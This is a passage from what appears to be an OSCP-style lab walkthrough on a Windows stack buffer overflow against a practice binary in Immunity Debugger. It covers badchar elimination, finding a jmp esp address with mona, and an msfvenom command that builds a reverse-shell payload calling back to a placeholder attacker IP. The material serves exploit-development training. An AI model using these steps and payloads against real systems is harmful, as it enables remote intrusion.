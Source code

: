 Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

![img-description](/assets/img/BOF_Unmodified.png)
_End of Bad Chars_

### Finding a Jump Point

Now run the following command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```
!mona jmp -r esp -cpb "\x00\xa0\xa1\xad\xae\xbe\xbf\xde\xdf\xef\xf0"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified.

![img-description](/assets/img/BOF_jmp.png)
_JMP ESP_

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali for making the reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\xa0\xa1\xad\xae\xbe\xbf\xde\xdf\xef\xf0" -f c
```
